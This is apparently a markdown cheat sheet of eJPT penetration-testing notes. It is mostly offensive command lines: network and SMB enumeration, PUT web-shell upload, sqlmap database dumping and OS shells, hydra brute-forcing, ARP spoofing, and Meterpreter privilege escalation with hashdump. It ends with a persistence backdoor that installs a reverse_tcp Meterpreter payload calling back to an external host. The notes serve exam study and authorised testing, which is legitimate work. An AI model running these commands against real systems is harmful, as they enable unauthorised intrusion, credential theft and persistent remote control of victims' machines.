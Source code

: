 # eJPT notes

## Routing

`ip route add ROUTETO via ROUTEFROM`  


## Enumeration

### whois

`whois site.com`

### Ping sweep

`fping -a -g 10.10.10.0/24 2>/dev/null  
nmap -sn 10.10.10.0/24`

### Nmap

```bash
# OS Detection, no ping
nmap -Pn -O 10.10.10.10

# def scripts, version check
nmap -sC -sV 10.10.10.10

# above + All ports
nmap -sC -sV -p- 10.10.10.10

# UDP version check
nmap -sU -sV 10.10.10.10
```

### SMB/SAMBA

#### nbtscan

```text
nbtscan -A 10.10.10.10
```

![](../.gitbook/assets/image%20%2863%29.png)

#### net view

```text
net view 10.10.10.10
```

#### net use

```c
# c$ - shares in c drive
# admin$ - windows install directory
# ipc$ - inter process use (not viewable on browser)

# using no user/pass login

net use \\10.10.10.10\IPC$ '' /u:''
# The command completed successfully.

net use \\10.10.10.10\ADMIN$ '' /u:
# System error 5 has occurred.

# Access is denied.
```

#### enum

```bash
# enumerate users
enum -U 10.10.10.10

# enumerate password policy
enum -P 10.10.10.10
```

#### nmblookup

```text
nmblookup -A 10.10.10.10
```

#### smbclient

```bash
# no password mode -N
smbclient -L //10.10.10.10 -N
```

## Web Pentesting

### Banner Grabbing

```bash
nc -v 10.10.10.10 port
HEAD / HTTP/1.0
```

### OpenSSL for HTTPS services

```bash
openssl s_client -connect 10.10.10.10:443
HEAD / HTTP/1.0
```

### Httprint

`httprint -P0 -h 10.10.10.10 -s /path/to/signaturefile.txt`

### HTTP Verbs

`GET, POST, HEAD, PUT, DELETE, OPTIONS`

### PUT shells

```bash
wc -m shell.php
x shell.php

PUT /shell.php
Content-type: text/html
Content-length: x
```

### Directory and File Scanning

```bash
dirsearch.py -u http://10.10.10.10 -e *
gobuster -u 10.10.10.10 -w /path/to/wordlist.txt
```

### Google-fu

```text
site:
intitle:
inurl:
filetype:
AND, OR, &, |, -
```

### SQLMap

```bash
sqlmap -u http://10.10.10.10 -p parameter
sqlmap -u http://10.10.10.10  --data POSTstring -p parameter
sqlmap -u http://10.10.10.10 --os-shell
sqlmap -u http://10.10.10.10 --dump

# banner grabbing
sqlmap -u http://10.10.10.10/view.php?id=1 -b

# dump specified database
sqlmap -u http://10.10.10.10/view.php?id=1 --current-db selfie4you --dump


```



## Exploitation

### Unshadow

This prepares a file for use with John the Ripper `unshadow passwd shadow > unshadow`

### John The Ripper

`john -wordlist /path/to/wordlist -users=users.txt hashfile`

### Hydra

```bash
hydra -L users.txt -P pass.txt -t 10 10.10.10.10 ssh -s 22
hydra -L users.txt -P pass.txt telnet://10.10.10.10
```

### SMB / SAMBA

```bash
nmblookup -A 10.10.10.10
smbclient -L //10.10.10.10 -N (list shares)
smbclient //10.10.10.10/share -N (mount share)
enum4linux -a 10.10.10.10
```

### ARP spoofing \(Dsniff\)

```bash
# tells my machine to forward packets incepted to the real desination hosts
echo 1 > /proc/sys/net/ipv4/ip_forward

# arpspoof -i <interface> -t <target> -r <host>
arpspoof -i tap0 -t 10.10.10.10 -r 10.10.10.11
```

### Metasploit

```bash
search x
use x
info
show options
show advanced
```

#### Meterpreter

```bash
background
sessions -l
sessions -i 1
sysinfo
ifconfig
route

# get which user is running process
getuid

# privilege escalation ('User Account Control' GPO policy may prevent this)
getsystem

# bypass the restriction of 'User Account Control' GPO policy to privesc
bypassuac

# transfering files
download x /root/
upload x C:\\Windows

# run standard operating system shell
shell


use post/windows/gather/hashdump
```

#### Meterpreter - persistence backdoor

```bash
# persistent backdoor - need meterpreter session
msf > use exploit/windows/local/s4u_persistence
msf (s4u_persistence) > set session 2
#session => 2
msf (s4u_persistence) > set trigger logon
#trigger => logon
msf (s4u_persistence) > set payload windows/meterpreter/reverse_tcp
msf (s4u_persistence) > set lhost 1.2.3.4
msf (s4u_persistence) > set lport 1234
msf (s4u_persistence) > exploit


msf (s4u_persistence) > use exploit/multi/handler
msf (handler) > set payload windows/meterpreter/reverse_tcp
msf (handler) > exploit

# once victim restarts and logons, we will get a meterpreter shell
```

